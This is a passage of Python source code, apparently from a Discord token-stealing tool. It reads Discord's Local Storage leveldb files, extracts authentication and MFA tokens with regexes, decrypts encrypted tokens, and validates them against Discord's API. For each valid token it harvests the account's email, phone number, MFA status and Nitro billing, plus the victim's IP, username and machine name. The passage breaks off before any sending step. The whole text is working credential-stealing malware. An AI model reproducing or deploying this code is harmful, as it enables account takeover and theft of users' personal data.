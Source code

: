         try:
            for file in listdir(path + "\\Local Storage\\leveldb\\"):
                if not file.endswith(".ldb") and not file.endswith(".log"): continue
                with open(path + f"\\Local Storage\\leveldb\\{file}", "r", errors='ignore') as files:
                    for line in files.readlines():
                        for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                            for token in findall(regex, line):
                                tokens.append(token)
        except:
            pass
        
        for i in tokens:
            if i.endswith("\\"):
                i.replace("\\", "")
            elif i not in cleaned:
                cleaned.append(i)
                
        for token in cleaned:
            try:
                if token.startswith("dQw4w9WgXcQ:"):
                    tok = decrypt(b64decode(token.split('dQw4w9WgXcQ:')[1]), b64decode(key)[5:])
                else:
                    tok = token
            except:
                continue
                
            checker.append(tok)
            for value in checker:
                if value not in already_check:
                    already_check.append(value)
                    headers = {'Authorization': value, 'Content-Type': 'application/json'}
                    try:
                        res = requests.get('https://discordapp.com/api/v9/users/@me', headers=headers)
                    except: continue
                    if res.status_code == 200:
                        res_json = res.json()
                        ip = getip()
                        pc_username = os.getenv("UserName")
                        pc_name = os.getenv("COMPUTERNAME")
                        user_name = f'{res_json["username"]}#{res_json["discriminator"]}'
                        user_id = res_json['id']
                        email = res_json['email']
                        phone = res_json['phone']
                        mfa_enabled = res_json['mfa_enabled']
                        has_nitro = False
                        res = requests.get('https://discordapp.com/api/v6/users/@me/billing/subscriptions', headers=headers)
                        nitro_data = res.json()
                        has_nitro = bool(len(nitro_data) > 0)
                        days_left = 0
                        if has_nitro:
                            d1 = datetime.strptime(nitro_data[0]["current_period_end"].split('.')[0], "%Y-%m-%dT%H:%M:%S")
                            d2 = datetime.strptime(nitro_data[0]["current_period_start"].split('.')[0], "%Y-%m-%dT%H:%M:%S")
                            days_left = abs((d2 - d1).days)
                        
